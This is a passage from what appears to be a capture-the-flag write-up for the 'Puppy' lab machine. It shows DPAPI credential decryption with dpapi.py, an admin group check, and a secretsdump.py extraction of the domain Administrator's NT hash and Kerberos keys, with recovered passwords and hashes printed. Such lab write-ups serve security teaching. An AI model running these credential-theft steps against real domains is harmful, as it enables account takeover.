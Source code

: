 ```terminal
```

Now let's decrypt the credentials file.

```terminal
dpapi.py credential -f C8D69EBE9A43E9DEBF6B5FBD48B521B9 -key 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2025-03-08 15:54:29
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=PUPPY.HTB
Description : 
Unknown     : 
Username    : steph.cooper_adm
Unknown     : FivethChipOnItsWay2025!
```

We got password for steph.cooper_adm.

Listing the members of administrator's group we see that this user is part of the group.

```terminal
*Evil-WinRM* PS C:\Users\steph.cooper\appdata\roaming\microsoft> net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
steph.cooper_adm
The command completed successfully.
```

We can use secretsdump to ge the NT hash of administrator.

```terminal
[★]$ secretsdump.py steph.cooper_adm:'FivethChipOnItsWay2025!'@puppy.htb  -just-dc-user administrator
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb0edc15e49ceb4120c7bd7e6e65d75b:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:c0b23d37b5ad3de31aed317bf6c6fd1f338d9479def408543b85bac046c596c0
Administrator:aes128-cts-hmac-sha1-96:2c74b6df3ba6e461c9d24b5f41f56daf
Administrator:des-cbc-md5:20b9e03d6720150d
[*] Cleaning up... 
```

## **References**

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
